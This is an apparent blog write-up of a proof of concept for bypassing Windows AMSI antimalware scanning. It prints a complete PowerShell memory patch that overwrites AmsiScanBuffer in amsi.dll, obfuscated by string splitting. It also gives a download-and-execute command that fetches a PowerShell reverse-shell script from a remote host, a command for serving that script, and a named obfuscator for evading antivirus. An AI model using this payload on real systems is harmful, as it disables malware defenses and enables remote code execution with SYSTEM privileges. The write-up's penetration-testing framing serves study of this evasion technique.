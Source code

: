 ## Table of Contents
- [**Outline**](#section-0)
- [**Antimalware Scan Interface Explanation**](#section-1)
- [ **Proof of Concept - Bypassing 2023 Windows 10 Pro AMSI**](#section-2)
- [ **Memory Patching & Obfuscation**](#section-3)
- [ **Credits & Reference**](#section-4)


## Outline

The goal of this write-up is to demonstrate bypassing the most up to date AMSI protection measure implemented in Windows 10 Pro (2023/07/28). The objective was to gain a Remote Code Execution (RCE) as NT/Authority System.

![](/assets/AV/diagram.png)  

AMSI (Antimalware Scan Interface) is a Windows feature introduced in Windows 10 and Windows Server 2016. Its primary purpose is to provide an interface that allows antivirus and other security solutions to scan and inspect scripts and code in real-time at runtime

By default windows defender interacts with the AMSI API to scan PowerShell scripts, VBA macros, JavaScript and scripts using the Windows Script Host technology during execution. When a user executes a script or initiates PowerShell, the AMSI.dll is injected into the process memory space. Prior to execution the following two API’s are used by the antivirus to scan the buffer and strings for signs of malware. This ultimately prevents arbitrary execution of code.
# AMSI Evasion
The following evasive techniques aim to avoid detection by antivirus and security software.  

##### Code Fragmentation: 
Divide codes into smaller components and assemble at runtime, evading static analysis.  

##### Obfuscation: 
Utilize obfuscation techniques to obscure the true intent of the script, making it challenging for AMSI scanners to interpret the code accurately.  

#####  Memory Patching: 
Modify the AMSI Dynamic Link Library (DLL) in memory to either disable or alter its functionality temporarily.  

#### Powershell Downgrade: 
Downgrade to Windows PowerShell 2.0. It lacks essential security controls like AMSI protection, making it susceptible to exploitation as a means of evasion.

## Proof of Concept

![](/assets/AV/Final.gif)  

To verify that AMSI is correctly functioning, the tester first tried to initiate a reverse TCP connection through powershell using the below command in memory.
```bash
IEX (New-Object Net.WebClient).DownloadString('http://192.168.20.128:8443/Invoke-PowerShellTcp.ps1')
```
However, as seen above, AMSI sucessfully flags the activity as  `malicious` and proceeds to block the reverse shell connection. 
## Memory Patching
In order to bypass AMSI, the tester utilzed the following payload which was referenced from [Red Team Playbook](https://www.xn--hy1b43d247a.com/defense-evasion/amsi-bypass)
```bash
$thing = @"
// thing 
// using System.Collections.ArrayList;
using System; // thingssa
using System.Runtime.InteropServices;
public class payload {
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
}
"@
Add-Type $thing
[System.Collections.ArrayList]$Patch = 0xB8, 0x57, 0x90, 0x90, 0x00, 0x90, 0x07, 0x80, 0x90, 0xC3
$Patch.Remove(0x90)
$Patch.Remove(0x90)
$Patch.Remove(0x90)
$Patch.Remove(0x90)

[byte[]]$byteArrayFun = "","","","","",""
$byteArrayFun[0] = $Patch[0]
$byteArrayFun[1] = $Patch[1]
$byteArrayFun[2] = $Patch[2]
$byteArrayFun[3] = $Patch[3]
$byteArrayFun[4] = $Patch[4]
$byteArrayFun[5] = $Patch[5]

$to = "Am" +"s" + "iSc" + "a" + "nBu" + "ffer"
$connect = "a" + "m" + "si" + ".dl" + "l"
$librarz = [payload]::LoadLibrary($to)
$dest = [payload]::GetProcAddress($librarz, $connect)
$p = 0
[payload]::VirtualProtect($dest, [uint32]5, 0x40, [ref]$p)

[System.Runtime.InteropServices.Marshal]::Copy($byteArrayFun, 0, $dest, 6)
```


By applying a patch to the `AmsiScanBuffer` function in `AMSI.dll`, using specific assembly code (mov eax, 0x80070057 and ret), the function promptly returns an error code, effectively avoiding the scanning of PowerShell code. This method allows the attacker's PowerShell code to execute without triggering AMSI's detection.

However, it is essential to acknowledge that even with the aforementioned payload, AMSI might still identify the content as malicious unless proper obfuscation methodologies are implemented. To conceal the payload's content and intention, the tester opted to utilize Chameleon PowerShell Obfuscator. Chameleon is a specialized tool designed to obfuscate PowerShell scripts and circumvent AMSI and commercial antivirus solutions. It employs a range of obfuscation techniques to evade common detection signatures, thereby enhancing its effectiveness in avoiding detection. Examples of obfuscation methods include but are not limited to comment deletion/substitution
string substitution (variables, functions, data-types) ,variable concatenation ,indentation randomization ,semi-random backticks insertion and randomization.

After implementing effective obfuscation techniques, the tester proceeded by hosting a Python web server on port 8443 to serve a PowerShell Reverse Shell Scrip.
```bash
python3 -m http.server 8443
```

Taking advantage of the AMSI.dll malfunction, the tester successfully initiated a reverse TCP connection via PowerShell, executing the following command in memory:
```bash
IEX (New-Object Net.WebClient).DownloadString('http://192.168.20.128:8443/Invoke-PowerShellTcp.ps1')
```
Consequently, the tester achieved a  Remote Code Execution (RCE) with NT/Authority System privileges.
![](/assets/AV/system.png)  

## Reference
[Red Team Playbook](https://www.xn--hy1b43d247a.com/defense-evasion/amsi-bypass) && [Pentest Laboratories](https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/)
